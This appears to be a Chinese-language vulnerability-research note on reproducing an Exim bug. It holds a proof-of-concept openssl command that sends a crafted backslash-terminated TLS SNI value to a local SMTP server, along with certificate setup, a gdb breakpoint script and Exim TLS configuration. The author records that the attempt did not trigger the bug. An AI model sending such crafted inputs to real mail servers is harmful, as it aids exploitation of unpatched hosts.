 下面是自己做的尝试：

目前的poc：

openssl s_client -servername 'forbar\' -starttls smtp -connect 127.0.0.1:25 -cert ./root.pem -key ./root.key

当前问题：

Received TLS SNI "foobar\" (unused for certificate selection)
显示报错，无法触发到以上函数

证书生成脚本：

```
openssl genrsa -out root.key 4096
openssl req -x509 -new -nodes -key root.key -days 1825 -out root.pem
openssl genrsa -out server.key 4096
openssl req -new -key server.key -out server.csr
openssl x509 -req -in server.csr -CA root.pem -CAkey root.key -CAcreateserial -out server.crt -days 365

sudo cp ./root.pem /etc/ssl/exim.pem 
sudo cp ./root.key /etc/ssl/exim.key

```

gdb调试脚本：

```
路径：/home/osboxes/study/vul/exim

sudo gdb \
        -ex "file ./src/build-Linux-x86_64/exim" \
        -ex "attach $(ps -aux | grep exim |grep -v 508| grep -v grep |grep -v sudo|awk '{print $2}')" \
        -ex "set follow-exec-mode same" \
        -ex "b spool_read_header" \
        -ex "b spool_write_header" \
        -ex "b tls_import_cert" \
        -ex "b string_printing2" \
        -ex "b string_interpret_escape"\
        -ex "b string_unprinting"\
        -ex "b deliver_message" \
        -ex "b receive_msg" \
        -ex "continue"

```

配置文件修改部分：

```
sudo vim /usr/exim/configure 

tls_advertise_hosts = *

tls_certificate = /etc/ssl/exim.pem
tls_privatekey = /etc/ssl/exim.key

tls_require_ciphers = ECDSA:RSA:!COMPLEMENTOFDEFAULT

daemon_smtp_ports = 25 : 465 : 587
tls_on_connect_ports = 465

```
